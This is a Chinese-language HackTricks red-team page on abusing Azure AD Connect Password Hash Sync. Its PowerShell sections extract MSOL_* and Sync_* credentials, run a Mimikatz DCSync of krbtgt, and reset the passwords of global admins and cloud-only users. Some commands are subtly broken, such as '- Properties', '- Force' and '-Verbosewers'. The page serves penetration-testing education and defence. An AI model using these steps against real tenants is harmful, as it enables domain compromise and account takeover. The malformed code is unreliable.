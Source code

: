 # Az - PHS - 密码哈希同步

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

**密码哈希同步**是用来实现混合身份的登录方法之一。**Azure AD Connect**将用户密码的哈希的哈希从本地Active Directory实例同步到基于云的Azure AD实例。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这是公司用来同步本地AD与Azure AD的**最常用方法**。

所有**用户**和密码哈希的**哈希**都从本地同步到Azure AD。然而，**明文密码**或**原始**哈希**不会发送到Azure AD。\
此外，**内置**安全组（如域管理员等）**不会同步**到Azure AD。

**哈希同步**每**2分钟**发生一次。然而，默认情况下，**密码过期**和**账户过期**在Azure AD中**不会同步**。所以，一个本地密码已过期（未更改）的用户可以继续使用旧密码**访问Azure资源**。

当本地用户想要访问Azure资源时，**认证发生在Azure AD上**。

**PHS**是诸如**身份保护**和AAD域服务等功能所必需的。

## 枢纽转移

配置PHS时，一些**特权账户**会自动**创建**：

* 账户**`MSOL_<installationID>`**会自动在本地AD中创建。该账户被赋予**目录同步账户**角色（参见[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地AD中拥有**复制（DCSync）权限**。
* 在Azure AD中创建了一个账户**`Sync_<on-prem ADConnect Server名称>_installationID`**。该账户可以**重置任何用户**（已同步或仅限云）在Azure AD中的密码。

上述两个特权账户的密码**存储在SQL服务器**上，该服务器安装了**Azure AD Connect。**管理员可以提取这些特权用户的明文密码。\
数据库位于`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**加密配置**使用**DPAPI**加密，它包含了本地AD中**`MSOL_*`**用户的**密码**和AzureAD中**Sync\_\***的密码。因此，危及这些信息就有可能提升权限到AD和AzureAD。

您可以在[这个演讲中找到这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找**Azure AD connect服务器**

如果**安装了Azure AD connect的服务器**加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### 滥用 MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

通过攻破 **`Sync_*`** 账户，可以**重置**任何用户（包括全局管理员）的密码
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
它还可以**仅修改云端**用户的密码（即使这是出乎意料的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以转储此用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，**同步**用户有权限这样做，然后**访问该服务主体**作为提权的一种方式。
{% endhint %}

### 无缝单点登录

可以将无缝单点登录与PHS一起使用，这对其他滥用行为是脆弱的。请在以下位置检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
